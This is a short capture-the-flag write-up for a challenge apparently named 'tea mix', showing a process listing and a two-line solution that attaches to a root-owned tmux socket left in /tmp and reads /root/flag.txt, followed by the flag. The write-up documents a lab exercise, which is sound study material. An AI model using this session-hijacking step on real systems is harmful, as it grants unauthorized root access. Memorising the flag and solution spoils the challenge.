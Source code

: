 #### Challenge:

Get the tea while it's still hot! <br><br> <b>Open the <code>Deployment</code> tab to start this challenge.</b>

---

#### Solution:

```console
bash-4.4$ busybox ps
busybox ps
PID   USER     TIME   COMMAND
    1 root       0:00 socat TCP-LISTEN:9999,reuseaddr,fork EXEC:/.controller,st
   16 root       0:00 {tmux: server} tmux -S /tmp/tmux-0/tea_mix new-session -d
   17 root       0:00 ash -c bash -i
   19 root       0:00 bash -i
   38 challeng   0:00 python3 -c import pty; pty.spawn("""/bin/bash""")
   39 challeng   0:00 /bin/bash
   48 root       0:00 socat TCP-LISTEN:9999,reuseaddr,fork EXEC:/.controller,st
   49 root       0:00 {.controller} /bin/bash /.controller
   50 challeng   0:00 python3 -c import pty; pty.spawn("""/bin/bash""")
   51 challeng   0:00 /bin/bash
   52 challeng   0:00 busybox ps
```

```bash
TERM=tmux tmux -S /tmp/tmux-0/tea_mix a -t tea_mix
cat /root/flag.txt
```

---

<details><summary>FLAG:</summary>

```
flag{oooohhhh_tea_mix_sounds_like_tmux_i_get_it}
```

</details>
<br/>
